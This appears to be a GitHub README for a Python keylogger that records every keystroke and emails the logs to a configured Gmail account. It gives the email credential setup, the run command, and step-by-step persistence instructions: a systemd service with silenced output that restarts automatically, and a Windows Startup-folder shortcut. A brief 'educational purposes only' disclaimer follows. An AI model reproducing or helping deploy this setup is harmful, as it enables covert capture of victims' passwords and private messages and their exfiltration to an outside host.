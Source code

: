 ![Keylogger Example](https://imgur.com/dAyA3DS.png)

# Keylogger Script

This repository contains a Python-based keylogger script that logs keystrokes and sends them via email. It includes robust error handling, log management, and retry mechanisms for email delivery.

## Features

- **Keystroke Logging:** Captures all keystrokes, including special keys like `Enter`, `Backspace`, and `Space`.
- **Email Notification:** Sends the logged keystrokes to a specified email address.
- **Retry Mechanism:** Retries email sending up to 3 times in case of failures.
- **Log Management:** Clears logs after successfully sending them via email to prevent clutter.
- **Graceful Exit:** Stops logging and sends logs when the `Esc` key is pressed.
- **Automatic Startup:** Instructions included for setting up the script to run automatically at system startup (Linux and Windows).

## Prerequisites

1. Python 3.x
2. Required Python libraries:
   ```bash
   pip install pynput
   ```
3. A Gmail account with app-specific password (if 2-Step Verification is enabled). Refer to the [Google App Passwords Guide](https://support.google.com/accounts/answer/185833?hl=en) to create one.

## Configuration

Update the following variables in the script with your email credentials:

```python
EMAIL_ADDRESS = 'your-email@gmail.com'
EMAIL_PASSWORD = 'your-app-password'
SMTP_SERVER = 'smtp.gmail.com'
SMTP_PORT = 587
```

## Usage

### Running the Script

Run the script in your terminal:

```bash
python3 keylogger.py
```

### Stopping the Script

Press the `Esc` key to stop the keylogger. This will also send the collected logs to the configured email address and clear the log file.

### Automatic Startup Setup

#### Linux (Using Systemd)

1. Create a systemd service file:
   ```bash
   sudo nano /etc/systemd/system/keylogger.service
   ```

2. Add the following content:

   ```ini
   [Unit]
   Description=Keylogger Script
   After=multi-user.target

   [Service]
   ExecStart=/usr/bin/python3 /path/to/keylogger.py
   WorkingDirectory=/path/to
   StandardOutput=null
   StandardError=null
   Restart=always

   [Install]
   WantedBy=multi-user.target
   ```

   Replace `/path/to/keylogger.py` with the full path to your script.

3. Reload systemd and enable the service:
   ```bash
   sudo systemctl daemon-reload
   sudo systemctl enable keylogger.service
   sudo systemctl start keylogger.service
   ```

4. Verify the service is running:
   ```bash
   sudo systemctl status keylogger.service
   ```

#### Windows

1. Press `Win + R` and type `shell:startup`, then press Enter.
2. Create a shortcut in the Startup folder with the following target:
   ```
   C:\Python39\python.exe C:\path\to\keylogger.py
   ```
3. The script will run automatically on login.

## Security Notice

This script is for educational purposes only. Unauthorized use of keyloggers is illegal and unethical. Use it responsibly and only on systems where you have explicit permission.

## Disclaimer

The author is not responsible for any misuse of this script. Always use it in compliance with applicable laws and regulations.
